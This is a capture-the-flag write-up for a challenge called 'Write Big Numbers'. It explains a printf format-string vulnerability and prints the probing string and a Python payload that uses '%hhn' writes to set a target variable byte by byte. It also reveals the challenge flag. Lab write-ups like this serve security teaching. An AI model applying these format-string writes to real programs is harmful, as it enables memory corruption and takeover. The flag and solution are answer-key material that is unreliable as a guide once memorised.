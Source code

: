 # Challenge `Write Big Numbers` Writeup

- Vulnerability: 
  - Format strings
- Where:
  - printf function
- Impact:
  - allows to write in arbitrary memory

## Analyzing the server

The main function reads the user input to a buffer then based on the target value it prints the flag or writes an error message.

## Exploit

By running `gdb` its possible to find the address of the `target` variable. 
Sending the following format string
```
"AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x"
```
and verifying that the 7th register is filled with `41` (the value of `A`) tell us that we control the 7th register.
Now we can write the address of the target variable to this register and then use the `%n` specifier to write anything there. 
This time we have to write a specific value to the `target` variable, `0x0f5f1aa9`. Since `%n` specifier writes the number of characters written so far, we must write the values in crescent order.
First we write in the address+3 the value `0f` and then in the address+1 the value `1a` and so on.
```python
payload =  p32(adr+3) + b'%11c' + b'%007$hhn'
payload += p32(adr+1) + b'%07c' + b'%011$hhn'
payload += p32(adr+2) + b'%65c' + b'%015$hhn'
payload += p32(adr)   + b'%70c' + b'%019$hhn'
```
There are two main challenges, the first one is writing the specific value and the second one is writing in the correct register.
By translating the individual values to integers we can see that the first value `0x0f` is `15` meaning that we write 4 bytes for the address plus 11 characters (`%11c`) to the 7th register. Then we want to write `0x1a` which is `26` so we have to write 26-15=11 characters, 4 bytes for the address plus 7 characters (`%07c`) and to compute the correct register we add 4 to the previous register because:
```
           7th           8th         9th 10th registers
            |-------------|-----------|---|
            v             v           v   v
payload =  p32(adr+3) + b'%11c' + b'%007$hhn'
payload += p32(adr+1) + b'%07c' + b'%011$hhn'
            ^
            |----------
            11th register
```
and so on.
Revealing the flag `SSof{And_write_BIIIIIG_numbers_Very_BIG}`

## Implementation

Full implementation can be found [here](write-big-numbers.py).
